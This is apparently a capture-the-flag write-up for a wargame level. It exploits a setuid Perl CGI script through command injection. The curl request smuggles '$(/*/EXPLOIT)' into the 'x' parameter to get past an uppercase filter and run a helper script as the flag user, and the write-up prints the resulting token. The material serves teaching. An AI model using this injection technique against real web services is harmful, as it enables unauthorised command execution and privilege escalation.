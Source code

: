 ## Step 1: Identifying the User

We begin by checking our current user informations:

```bash
$ id
uid=2012(level12) gid=2012(level12) groups=2012(level12),100(users)
```

This shows that we are operating as the user `level12`.

---
## Step 2: Searching for Files

```bash
$ ls -la
-rwsr-sr-x+ 1 flag12  level12  464 Mar  5  2016 level12.pl

$ file level12
level12.pl: setuid setgid a perl script, ASCII text executable
```
The level12 is a setuid perl executable, meaning it executes with flag12 user's privileges.


---
## Step 3: Analyzing the Perl Script

```perl
$ cat level12.pl

#!/usr/bin/env perl
# localhost:4646
use CGI qw{param};
print "Content-type: text/html\n\n";

sub t {
  $nn = $_[1];
  $xx = $_[0];
  $xx =~ tr/a-z/A-Z/; 
  $xx =~ s/\s.*//;
  @output = `egrep "^$xx" /tmp/xd 2>&1`;
  foreach $line (@output) {
      ($f, $s) = split(/:/, $line);
      if($s =~ $nn) {
          return 1;
      }
  }
  return 0;
}

sub n {
  if($_[0] == 1) {
      print("..");
  } else {
      print(".");
  }    
}

n(t(param("x"), param("y")));
```

### Explanation
The script is a CGI script, meaning it is intended to be executed on a web server to handle HTTP requests.
The parameters `x` and `y` can be supplied via a curl command `localhost:4646?x=42&y=42`.


## Step 4: Exploiting the vulnerability
The script has a command injection vulnerability. This is due to the way it uses backticks to execute the `egrep` command with user-supplied data `($xx)`, which is derived from the `x` parameter in the HTTP request.


```bash
$ echo "getflag > /tmp/TMP" > /tmp/EXPLOIT
$ chmod +x /tmp/EXPLOIT

$ curl localhost:4646?x='$(/*/EXPLOIT)'&y=42

$ cat /tmp/TMP
Check flag.Here is your token : g1qKMiRpXf53AWhDaU7FEkczr 
```
The command `echo "getflag > /tmp/TMP" > /tmp/EXPLOIT` creates a script called `/tmp/EXPLOIT` that writes the output of the `getflag` command to `/tmp/TMP`.

The `curl` command sends a request to the vulnerable web server, with the `x` parameter set to `'$(/*/EXPLOIT)'`. The `$()` syntax in the URL injects the command `/tmp/EXPLOIT` into the `egrep` command, causing the script to be executed with the privileges of the `flag12` user.

---

And there you have it, the token is `g1qKMiRpXf53AWhDaU7FEkczr`.